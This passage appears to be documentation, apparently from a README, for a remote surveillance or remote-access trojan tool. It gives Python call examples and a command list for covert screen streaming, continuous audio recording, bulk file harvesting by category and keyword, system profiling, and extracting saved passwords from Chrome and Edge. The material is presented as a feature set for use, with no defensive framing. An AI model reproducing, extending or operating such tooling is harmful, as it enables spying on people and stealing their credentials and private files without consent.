 ### 3. Command Examples

```python
# Screen Streaming
result = advanced_handler('stream_start', {
    'quality': 70,
    'fps': 3,
    'scale': 75
})

# Audio Recording
result = advanced_handler('audio_record', {
    'duration': 30
})

# File Harvesting
result = advanced_handler('harvest_category', {
    'categories': ['documents', 'images'],
    'max_files': 500,
    'max_total_size': 100 * 1024 * 1024  # 100MB
})

# Browser Data Extraction (Windows only)
result = advanced_handler('browser_extract_passwords', {
    'browsers': ['Chrome', 'Edge']
})

# System Information
result = advanced_handler('sysinfo_full', {})

# Get Available Commands
result = advanced_handler('get_capabilities', {})
```

## 🎛️ Available Commands

### Screen Streaming:
- `stream_start` - Start real-time screen streaming
- `stream_stop` - Stop streaming
- `stream_adjust` - Adjust quality/FPS on the fly
- `stream_status` - Get streaming status

### Audio Recording:
- `audio_record` - Record for specific duration
- `audio_start_continuous` - Start continuous recording
- `audio_stop_continuous` - Stop continuous recording
- `audio_set_device` - Select audio device
- `audio_test_device` - Test audio device
- `audio_status` - Get recording status

### File Harvesting:
- `harvest_files` - Collect files with custom criteria
- `harvest_category` - Collect by category (documents, images, etc.)
- `harvest_recent` - Collect recently modified files
- `harvest_large` - Collect large files
- `harvest_search` - Search file content for keywords
- `harvest_get_categories` - Get available categories
- `harvest_status` - Get harvest status
